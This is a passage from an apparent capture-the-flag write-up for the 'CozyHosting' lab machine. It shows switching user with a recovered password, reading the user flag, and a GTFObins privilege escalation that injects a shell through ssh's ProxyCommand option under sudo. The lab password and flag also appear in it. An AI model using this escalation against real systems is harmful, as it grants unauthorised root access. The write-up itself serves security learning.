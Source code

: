 - Nice, we got the password and we can `su` to `josh` successfully now with that password. We can also grab the first flag:

```
app@cozyhosting:/app$ su josh
Password: 
josh@cozyhosting:/app$ id
uid=1003(josh) gid=1003(josh) groups=1003(josh)
josh@cozyhosting:/app$ cd
josh@cozyhosting:~$ ls -alh
total 40K
drwxr-x--- 4 josh josh 4.0K Oct  6 00:46 .
drwxr-xr-x 3 root root 4.0K May 18 15:03 ..
lrwxrwxrwx 1 root root    9 May 11 19:34 .bash_history -> /dev/null
-rw-r--r-- 1 josh josh  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 josh josh 3.7K Jan  6  2022 .bashrc
drwx------ 2 josh josh 4.0K May 18 14:47 .cache
-rw------- 1 josh josh   20 May 18 22:14 .lesshst
-rw-r--r-- 1 josh josh  807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 May 21 13:10 .psql_history -> /dev/null
drwx------ 2 josh josh 4.0K Oct  6 00:46 .ssh
-rw-r----- 1 root josh   33 Oct  3 17:35 user.txt
-rw-r--r-- 1 josh josh   39 Aug  8 10:19 .vimrc
josh@cozyhosting:~$ cat user.txt 
5efc683ffe6e0e712f45f904a9e91875
```

## 3. Privilege Escalation

- Checking our privilege, we can see that we are able to execute SSH with sudo privilege:

```
josh@cozyhosting:~$ sudo -l 
sudo -l
[sudo] password for josh: manchesterunited

Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

- This is definitely odd, this means that `josh` has unrestricted privileges to run ssh as root and can specify any argument. Most likely our attack vector. 

- When it comes to doing privilege escalation on linux binaries, I always like to check out <a href="https://gtfobins.github.io/">GTFObins</a> to see if there is a solution. 
Interestingly enough, GTFObins has an exploit we can use in this situation:

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
